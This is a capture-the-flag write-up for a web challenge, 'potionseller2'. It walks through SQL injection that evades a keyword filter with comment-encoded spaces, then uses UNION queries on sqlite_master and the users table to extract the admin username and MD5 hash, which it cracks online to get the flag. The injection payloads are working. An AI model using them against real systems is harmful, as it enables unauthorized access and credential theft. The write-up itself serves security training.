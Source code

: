 # potionseller2

## What it is

Almost the same as potionseller except:
- the strongest potion is available without injection
- A link to the "Admin Space" appeared on the site, connecting requires a login and a password

## Solution

(see solve.js)

We need to get credentials for the admin.

The server has new measures in place to catch injection attempts:
```json
https://potionseller2.secu-web.blackfoot.dev/potions/1 or 1=1
{
  "err": "That looks like code! I don't like code, only potions!"
}
```

A lot of these measures can be bypassed by replacing spaces with empty comments ```/**/``` -> ```%2f**%2f``` ([source](https://portswigger.net/support/sql-injection-bypassing-common-filters)):
```
https://potionseller2.secu-web.blackfoot.dev/potions/7 or id > 4
-> https://potionseller2.secu-web.blackfoot.dev/potions/7%2f**%2for%2f**%2fid%2f**%2f>%2f**%2f4
```
```json
{
  "potion": {
    "id": 5,
    "name": "Truth Serum (6x)",
    "description": "Perfect for questing adventurers or for wild parties!",
    "price": 600,
    "img": "http://payload138.cargocollective.com/1/3/107627/5077854/TruthSerum_jpeg_02_800.jpg",
    "longdescription": "From the mines of Moria straight to your local potion dealer, this 6-pack Truth Serum is bound to help you in your interrogations - and also makes for a great time with your party when the adventure is over!"
  }
}
```


We can list all tables using ```UNION``` and the ```sqlite_master``` table ([sqlite system tables](https://www.techonthenet.com/sqlite/sys_tables/index.php)):
```
https://potionseller2.secu-web.blackfoot.dev/potions/7 ) union SELECT *,null FROM sqlite_master where type is 'table' and tbl_name is not 'potions'-- -
```
```json
{
  "potion": {
    "id": "table",
    "name": "users",
    "description": "users",
    "price": 3,
    "img": "CREATE TABLE users(id INT PRIMARY KEY, username TEXT NOT NULL, password TEXT NOT NULL)",
    "longdescription": null
  }
}
```

To get the users:
```
https://potionseller2.secu-web.blackfoot.dev/potions/7 ) union SELECT *,null,null,null FROM users-- -
```
```json
{
  "potion": {
    "id": 0,
    "name": "potionSellerRoot",
    "description": "367ab14fdf7fa39f96143302dc5b7ef9",
    "price": null,
    "img": null,
    "longdescription": null
  }
}
```

The login is ```potionSellerRoot``` and the password hash is ```367ab14fdf7fa39f96143302dc5b7ef9```.

Using a [hash cracking website](https://hashes.com/en/decrypt/hash) we can get the password (it is a MD5).

password: ```potions```

We can now login to the Admin Space and get the flag

flag: ```BFS{Y4Y_f0R_5qLi!}```
